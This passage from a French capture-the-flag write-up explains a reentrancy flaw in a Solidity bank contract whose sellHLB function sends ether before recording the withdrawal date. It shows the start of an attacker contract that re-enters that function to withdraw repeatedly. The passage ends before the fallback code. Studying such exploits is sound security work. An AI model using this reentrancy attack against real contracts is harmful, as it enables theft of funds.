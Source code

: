 ```solidity
        revert();
    }

    modifier onlyOwner() {
        require(msg.sender == boss);
    _;
    }

}
```

### Description

Là encore, on a affaire à une banque, et on a quelques fonctions intéressantes:
- `buyHLB`: on fournit des ether, et ils sont stockés dans la banque sur notre compte.
- `sellHLB`: on récupère nos ethers, et notre séniorité augmente d'un an. On ne peut appeler cette fonction qu'une fois par an.
- `senior`: donne le pass VIP, à condition que notre ancienneté soit comprise entre 10 et 150 ans.

Il s'agit d'une vulnérabilité classique sur les smart contracts appelée la `reentrency`.

En effet, quand un contrat transfère de l'argent à un autre contrat, le contrat qui reçoit de l'argent appelle une fonction (le fallback).

Ce fallback peut ainsi effectuer diverses actions, par exemple rappeler la fonction en question.

Dans notre cas, la fonction `sellHLB` effectue les opérations suivantes:
1) vérifie que le compte en banque de l'appelant comporte un montant supérieur à `numTokens`;
2) vérifie que le dernier retrait de l'appelant était il y a moins d'un an;
3) met à jour la valeur monétaire du compte;
4) augmente la séniorité de l'appelant d'un an;
5) envoie l'argent à l'appelant;
6) vérifie si la transaction a réussi. Si elle a échoué, annule le tout;
7) met à jour la date de dernier retrait de l'appelant.


### Attaque

Ainsi, si l'appelant a pour fallback une fonction qui rappelle `sellHLB`, le premier appel va être bloqué à l'étape 5, et donc l'étape 7 de mise à jour de la date de retrait n'est pas effectuée tout de suite.

Le second appel va donc toujours vérifier l'étape 2, et va pouvoir effectuer à nouveau un retrait.

Une fois la chaîne d'appels terminés, les étapes 6 et 7 vont toutes réussir, et donc on aura pu effectuer de nombreux retraits, ce qui aura augmenté notre séniorité.

Le contrat suivant effectue l'attaque:

```solidity
contract Attack {
    HallebardeToken public target;
    uint private fallback_called;

    constructor(address _address) public payable {
        address payable payableAddress = payable(_address);
        target = HallebardeToken(payableAddress);
        fallback_called = 0;
        target.buyHLB{value:100}();
    }

    function sell() public {
        target.sellHLB(1);
    }

    function senior() external view returns (uint256) {
        return target.senior();
    }
```